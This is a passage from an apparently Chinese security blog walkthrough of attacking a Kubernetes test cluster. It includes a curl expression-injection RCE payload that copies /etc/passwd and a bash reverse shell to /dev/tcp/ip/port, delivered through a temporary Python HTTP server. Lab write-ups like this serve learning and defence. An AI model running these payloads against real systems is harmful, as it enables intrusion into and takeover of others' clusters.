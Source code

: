 在 master 主机分别执行:

```
kubectl create -f RCE-vul.yaml
kubectl create -f vul-sr.yaml


```

创建完成后，执行 `kubectl get services` 可以看到成功映射端口

![](https://blog.riskivy.com/wp-content/uploads/2019/02/25.png)

接着回到 node 节点主机，关闭防火墙。仍然存在外部无法访问应用的情况，执行命令 `iptables -P FORWARD ACCEPT`

![](https://blog.riskivy.com/wp-content/uploads/2019/02/26.png)

### 2\. 漏洞利用获取权限

利用漏洞，实现反弹 shell。执行如下 payload:

```
curl -v -d 'username\[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("cp /etc/passwd /tmp")\]=test' 'http://localhost:8080/users/'


```

反弹 shell 的过程中，payload 存在特殊字符，无法执行。编写反弹 shell 的脚本, 代码如下：

```
#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1


```

下载脚本文件至目标主机，测试过程中，发现目标测试环境无法解析域名。这个问题需修改 `kubelet` 配置文件中 `KUBELET_DNS_IP`为公网 DNS `8.8.8.8`。但本次测试决定使用域名无法解析的环境。  
在服务器上执行 `python -m SimpleHTTPServer 10888` 通过 python 临时开启 http 服务下载文件

![](https://blog.riskivy.com/wp-content/uploads/2019/02/27.png)

接着执行该文件，获取 shell

![](https://blog.riskivy.com/wp-content/uploads/2019/02/28.png)

![](https://blog.riskivy.com/wp-content/uploads/2019/02/29.png)

### 3\. 攻击集群组件

输入指令 env，获取到当前容器信息。只有 Deployment 的 IP，没有 node 节点的信息

![](https://blog.riskivy.com/wp-content/uploads/2019/02/30.png)
